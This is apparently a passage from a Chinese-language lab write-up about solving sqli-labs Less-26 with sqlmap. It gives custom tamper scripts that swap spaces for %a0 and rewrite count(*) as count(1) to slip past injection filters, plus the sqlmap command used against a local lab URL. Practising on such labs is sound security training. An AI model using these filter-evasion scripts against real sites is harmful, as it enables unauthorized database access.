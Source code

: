 ```python
    pass


def tamper(payload, **kwargs):

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    # 把原先的+改为%a0即可
                    retVal += "%a0"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                # 把原先的+改为%a0即可
                retVal += "%a0"
                continue

            retVal += payload[i]

    return retVal
```
直接使用sqlmap发现是无法进行注入的，这里添加`--tamper`，并添加`-v 3`来查看输出的payload
`python3 sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-26/?id=1 --tamper "double-and-or.py,space2A0.py" -v 3 --batch`
![](https://img-blog.csdnimg.cn/20201229124402202.png)
发现Pyload中使用了`count(*)`，出现了关键字`*`，需要通过count(常数)来代替`count(*)`，count.py：
```python
#!/usr/bin/env python
# -*- coding:UTF-8 -*-
"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    retVal = payload
    if payload:
		# 把count(*)替换为count(1)
        retVal = re.sub(r"(?i)count\(\*\)", r"count(1)", payload)

    return retVal
```